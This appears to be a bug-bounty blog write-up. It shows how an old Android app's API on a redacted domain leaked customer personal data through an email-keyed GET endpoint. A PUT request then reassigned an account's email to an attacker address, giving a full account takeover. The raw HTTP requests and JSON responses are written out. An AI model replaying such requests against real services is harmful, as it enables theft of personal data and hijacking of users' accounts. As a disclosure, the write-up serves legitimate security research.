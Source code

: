 ```yaml
---
description: How I found a critical bug in API...
title: API Misconfiguration lead to Full ATO
date: 2024-09-02 08:00:00 -0600                           # Change the date to match completion date
categories: [WebHacking]                   # Change Templates to Writeup
tags: [bugbouny, redacted, webhacking, hacking]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image:                # Add infocard image here for post preview image
---
```


Hey ! Today I’m going to share with you an amazing found I made on a big company chaining multiple bugs and misconfigurations on their API :)

## Let's go !

![enter image description here](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExMGgxdmJpdTBiMHlxbnFtcW1pbzF1ajVwNWx2dWUzbGtyOGhqaDVrciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/CjmvTCZf2U3p09Cn0h/giphy.gif)

First of all, when I recon a target, I like looking for lost apks on obscure websites on the internet

So I went to my favorite apk websites :  [https://apkcombo.com](https://apkcombo.com),  [https://apkmonk.com](https://apkmonk.com)  and  [https://apkpure.com](https://apkpure.com)

![enter image description here](https://apkpure.net/static/imgs/website_screen_v1.jpg)


After some research, I found an interesting APK :  myapp.redacted last updated on 2016

So I downloaded the APK, launched Nox and BurpSuite and started hacking

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExbW5qdGg4cG9hcGxubWc2dDdsMGdsaWlmbmF5ZTNsOHRmcWFkcnp0ciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/YQitE4YNQNahy/giphy.gif)

## Browsing the APK

I browsed through the APK for about ten minutes and it literally seemed broken. It used the api “[http://appli.redacted.com](http://appli.redacted.com)”

Using BurpSuite Mapping, I found a very interesting endpoint: /fr/v2.0/Clients/%2520/ 👀👀

And after a few tries, I understood that I had to add the user’s email, so I made the request :

    GET /fr/v2.0/Clients/%2520/victim@gmail.com HTTP/1.1 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 595 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264945","lat":0,"long":0,"nom":"Sakayanagi","pays":"FR","code_postal":"86100","prenom":"Arisu","email":"victim@gmail.com","newsletter":1,"date_creation":"2023-11-20T17:22:20","mobile":"0689123912","statut":true,"type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"0000001525","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46C61A4B-D390-5BBD-8C20-BF2702327716","token":"254EF7C844BF25B845D7B1D49DD22753407AC6D989028B589931935FC2D352CB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

**FIRST BUG : PII Leakage via API Misconfiguration**

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExOHdneHJzZHprZWZxaXdsaXo0OTNjODczdXh6ZW01cWxjcmxmcWpvMyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/kdQuvu0LtCEjxYgTcS/giphy.gif)

## No done yet... !

So from that moment I decided to go down the rabbit hole to find other vulnerabilities

And after some research I found another endpoint that used a PUT method :

    PUT /fr/v2.0/Clients/8000040264945 HTTP/1.1 
    Content-Type: application/x-www-form-urlencoded 
    Content-Length: 401 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1 
    
    type=1&email=victim@gmail.com&device=e91480e2a8eb83af&android=1&nom=&prenom=&cp=86100&mobile=&pays=&token=dZJKFETVSRWwzz4olPqvF0%3AAPA91bEZA4Mvt5AttKlMRzfQ70nT-Hv7BHBlwix8WI9taP91n-_XEnMHnegOVQfNn0No6XDEuvPn_-rP7MufTLLta3ZilKYVjP0-rp9X_krK0yTLTgbasPYSP5s9kQKkG_PCntlQmkma&code_identite=&mag_prefere=0000001525&newsletter=1&alerte_mag=1&alerte_cata=1&alerte_promo=1&lat=&long=

This request was logged when I tried to modify my VIP card details on the APK (8000040264945)

BUTTT, and this is the whole point of this chaining, I could obtain the VIP card code of any user from their email with the previous request. I think you understand where I’m going with this… 😈

I quickly created another account on the platform, I retrieved my VIP code with the first request then in the second request I replaced my email address with  [attacker@gmail.com](mailto:attacker@gmail.com)

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache 
    X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 582 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264956","lat":0,"long":0,"nom":"DUJARDIN","pays":"FR","code_postal":"75002","prenom":"Victim","email":"attacker@gmail.com","newsletter":1,"date_creation":"2023-12-10T10:26:27","mobile":"+33655421789","statut":"actif","type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46B61A3B-D390-4CCD-8C20-BF2701317816","token":"254EF7C844BF78B845D7B1D09DD22753407AC6D459028B578731935FC2D352BB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

![enter image description here](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExdDI2ZXQ0ZGM5eWRpOWJnaWxtcThmajI0ZWh1cGRpdm5nOHpmN3F3OCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYtVHSxngR3lC/giphy.gif)


## Achieve Full 0-click ATO

After that, I created an account on the platform with  [attacker@gmail.com](mailto:attacker@gmail.com), I checked my email and when I connected I came across my previous account (the one I replaced email with the PUT request) !! 🎉🎉

And that’s the end of the story on how my extroardinary chaining allowed me to achieve an account takeover.

## Tips

1 - Always look for APKs belong to the company
2 - Privilegate old/lost APKs
